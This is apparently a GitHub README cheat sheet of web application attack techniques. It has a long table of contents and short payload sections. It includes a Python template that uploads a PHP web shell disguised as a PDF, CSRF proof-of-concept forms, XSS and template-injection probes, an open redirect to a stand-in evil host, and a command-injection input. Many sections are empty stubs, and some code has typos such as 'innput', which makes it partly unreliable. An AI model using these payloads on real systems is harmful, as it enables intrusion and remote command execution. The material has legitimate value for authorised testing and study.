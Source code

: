 # Web Application Security Attacks

* Application
	* Open Redirect
	* HTTP Parameter Pollution
	* Cross Site Request Forgery
	* HTML Injection
	* CRLF Injection
	* [XS-Search](#xssearch)
	* Cross Site Sripting
	* Template Injection
	* [IDOR](#idor)
	* [Type Confusion](#type)
	* [CORS Misconfiguration](#cors)
	* [Logic Bugs](#logic)
* Server
	* [Local/Remote File Inclusion](#lfi)
	* [SQL Injection](#sqli)
	* [Server Side Request Forgery](#ssrf)
	* [XML External Entity Vulnerability](#xxe)
	* [Insecure Deserialization](#deserialization)
	* [Prototype Pollution](#proto)
	* [ESI injection](#esi)
	* [Remote Code Execution](#rce)
* Cloud/Network
	* [Sub Domain Takeover](#sub)
	* [OAuth](#oauth)
	* [SAML](#saml)
	* [Parser Exploitation](#parser)
	* [AWS buckets](#aws)
	* [AppCache](#appcache)
	* [Cache Deception](#cached)
	* [Cache Poisoning](#cachep)
	* [Proxy Attacks](#proxy)
	* [HTTP Desync](#httpd)
* Multiple/Other
	* [XSS + CSRF](#xsscsrf)
	* [XSS + TRACE](#xsstrace)
	* [SSRF + CRLF](#ssrfcrlf)
	* [Jenkins](#jenkins)
* [Firewall Bypasses](#fire)
* [Flash](#flash)
* Spreadsheets
* Wordpress
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

<h2>Templates</h2>

<h3>Script template</h3>

	import requests
	from colorama import Fore, Back, Style

	requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

	proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

	def format_text(title, item):
		cr = '\r\n'
		section_break = cr + "*" * 20 + cr
		item = str(item)
		text = Style.BRIGHT + Fore.RED + title + Fore.RESET + section_break + item + section_break
		return text

	r = requests.get('https://umich.com', verify=False, proxies=proxies)
	print format_text('r.status_code is: ', r.status_code)
	print format_text('r.headers is: ', r.headers)
	print format_text('r.cookies is: ', r.cookies)
	print format_text('r.text: ', r.text)


<h3>Post form data</h3>

	# Post form data
	proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
	multipart_form_data = {
	    'file': ('aloha.php', '<?php system($_GET[\'cmd\']); ?>', 'application/pdf'),
	    'submit' : (None, 'Send')
	}
	r = requests.post('http://127.0.0.2/contact.php', verify=False, proxies=proxies, files=multipart_form_data)

<h2 id="application">Application</h2>

<h3 id="open">Open Redirect</h3>

	http://evil.url

<b>Upgrade to Response Splitting</b>

<h3 id="csrf">Cross Site Request Forgery</h3>

	#GET example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint?param=value1&param2=value2" method="POST">
					<innput type="submit" value="Submit request" />
				</form>
		</body>
	</html>

	#POST example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint" method="POST">
					<input type="hidden" name="param1" value="value1" />
					<input type="hidden" name="param2" value="value2" />
					<innput type="submit" value="Submit request" />
				</form>
		</body>
	</html>

	#JSON example
	<html>
		<body>
			<script>history.pushState('', '', '/')</script>
				<form action="https://127.0.0.1/vulnerable/endpoint" method="POST">
					<input name='{"param1":"value1", "param2":"'value='"}'>
					<innput type="submit" value="Submit request" />
				</form>
		</body>
	</html>



<b>Attacking local services</b>

<h3 id="xss">Cross Site Scripting</h3>

	<script>alert(1)</script>
	<svgonload=alert(1)>
	

<h3 id="ti">Template Injection</h3>

	input=%7B%7B7%2A7%7D%7D # {{7*7}}

<b>Sandbox Escape</b>

<h3 id="xxe">XML External Entities</h3>
	

<b>Local DTD files</b>

<h3 id="rce">Remote Code Execution</h3>

	input=%3Bdir

<b>Insecure API</b>
